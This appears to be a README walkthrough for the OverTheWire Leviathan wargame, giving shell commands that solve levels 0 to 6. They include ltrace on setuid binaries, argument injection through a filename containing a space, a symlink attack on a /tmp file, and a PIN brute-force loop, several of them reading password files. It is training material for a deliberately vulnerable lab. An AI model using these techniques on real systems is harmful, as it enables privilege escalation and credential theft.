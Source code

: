 # Leviathan

Visit the [website][1].

Server details:
```
url:   leviathan.labs.overthewire.org
port:  2223
user:  leviathan<level>
```

For convenience use
```bash
./connect.sh <level>
```

### Storing solutions

Once you have a password add it to a `passwords` file in the form `<level> <password`. When you run the `./connect.sh`
script it will print the password for the level if it exists so you can easily copy and paste it.  
For example
```
0 leviathan0
1 1234567890abcdef
2 fedcba0987654321
```

In the case where you get the private key for a level store it in a file named `leviathan<level>_key` e.g. if you have found
the key for `leviathan24` store it in the file `leviathan24_key`. This key will be used automatically when running the
`./connect.sh` script for that level (e.g. `./connect.sh 24`).

The starting password for level `0` is `leviathan0`.

### Levels

There are no instructions for any levels though pages do exist for them
```
https://overthewire.org/wargames/leviathan/leviathan<level>.html
```

##### 0

`grep password ./backups/bookmarks.html`

##### 1

```bash
# we have a setuid check program locally
# check what's being called when check runs
ltrace ./check
# it wants a password which it does a strcmp against so we can just use the string it's comparing against then
# it opens a new shell and we can
cat /etc/leviathan_pass/leviathan_2
```

##### 2

We have a `printfile` executable which is `setuid`. If we try something like `ltrace ./printfile .profile` we see
that we first check if the file is readable before passing it to `cat` like `cat %s`. We can take advantage of the
filename being passed in as is and the fact that it won't correctly intpret strings in the filename!

```bash
mkdir /tmp/andrewflbarnes2
cd /tmp/andrewflbarnes2

touch test
mkdir -p 'test /etc/leviathan_pass/'
touch 'test /etc/leviathan_pass/leviathan2'

~/printfile 'test /etc/leviathan_pass/leviathan2'
```

When we run the final comman the `printfile` program checks if the full string is a readable file - it treats
"`test `" as a directory rather than a file followed by a space.

However when it is passed to the cat command it treats the space as if it is separating two files - so we end
up catting the local `test` file and the actual file we want - `/etc/leviathan_pass/leviathan3` :)

##### 3

Same as level 1 - just run the `setuid` program `level4` with `ltrace` and check what password it wants. Rerun and
provide the password which gives a shell and then cat the password file.
```bash
ltrace ./level3
# find out the password
./level3
# enter the password
id
cat /etc/leviathan_pass/leviathan4
```

##### 4

Nigthmare... seems like there's no easy way to go from bits -> ascii on linux?

.trash/bin outputs the required password in binary (grouped by 8 bits).

```bash
for i in $(./.trash/bin)
do
    echo -ne $(printf "\\x%x\n" $((2#$i)) 2>/dev/null)
done
```

##### 5

Running `ltrace ./leviathan5` we see that that the `setuid` program attempts to read `/tmp.file.log`. So we can try
using a symbolic link here which works
```bash
ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
~/leviathan5
```

##### 6

Nice and simple - we just want a 4 digit PIN which will give us access to a shell through the `setuid` program.
```bash
for i in {0..999}
do
    ./leviathan6 $(printf "%04d" $i)
done
for i in {1000..9999}
do
    ./leviathan6 $i
done
```

[1]: <https://overthewire.org/wargames/leviathan/> "Leviathan wargames landing page"
